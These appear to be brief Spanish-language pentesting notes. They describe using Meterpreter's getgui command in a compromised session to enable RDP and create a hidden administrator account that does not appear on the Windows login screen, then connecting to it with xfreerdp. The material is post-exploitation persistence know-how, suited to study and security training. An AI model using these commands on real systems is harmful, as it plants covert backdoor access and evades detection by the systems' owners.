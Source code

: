 Mediante un comando de meterpreter en una session activa podemos crear habilitar el servicio RDP si no está habilitado, crear un usuario, añadirlo al grupo de administrators y remote management users y deshabilitar el que se muestre en la interfaz de login de windows para que no deje sospecha.

Comando meterpreter:
`run getgui -e -u <user> -p <password>`

![[Pasted image 20250303160028.png]]

Listo nos intentamos conectar con algún cliente  RDP:
`xfreerdp /u:<user> /p:<password> /v:<ip>`